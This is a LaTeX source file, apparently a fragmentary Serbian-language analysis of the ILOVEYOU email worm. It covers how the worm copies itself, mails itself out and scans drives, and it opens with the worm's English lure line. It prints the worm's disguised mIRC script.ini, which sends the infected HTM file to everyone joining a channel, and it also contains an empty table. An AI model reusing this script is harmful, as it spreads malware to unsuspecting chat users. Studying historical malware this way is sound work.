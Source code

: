 \documentclass[a4paper]{article}
\begin{document}
kindly check the attached LOVELETTER coming from me.

i kopiju fajla iz \verb|root_folder\LOVE-LETTER-FOR-YOU.TXT.vbs|.
Ova rutina šalje pismo kroz imejl. Takođe pravi ključeve za sve adrese na kojima je već bio da ne bi posetio istu adresu više puta.

\subsection{LISTADRIV}

Rutina locira svaki statični i prenosni disk i rekurzivno prolazi kroz sve foldere na svakom disku. U svakom direktorijum traži specifične tipove datoteka i ponaša se na sledeći način:

\begin{table}[h]
\begin{center}
\caption{Tabela tipova datoteka i promene koje ILOVEYOU pismo čini.}
\label{tab:tabela1}
\end{center}
\end{table}

Onda ako direktorijum sadrži sledeće datoteke:
\begin{itemize}
\item mirc32.exe
\item mlink32.exe
\item mirc.ini
\item script.ini
\item mirc.hlp
\end{itemize}
pismo će kreirati datoteku script.ini . Ova datoteka sadrži sledeće komande:
\begin{verbatim}
[script]
;mIRC Script
; Please dont edit this script... mIRC will corrupt, if mIRC will
; corrupt... WINDOWS will affect and will not run correctly. thanks
;
;Khaled Mardam-Bey
;http://www.mirc.com
;
n0=on 1:JOIN:#:{
n1= /if ( $nick == $me ) { halt }
n2= /.dcc send $nick system_folder\LOVE-LETTER-FOR-YOU.HTM
n3=}
\end{verbatim}
\end{document}
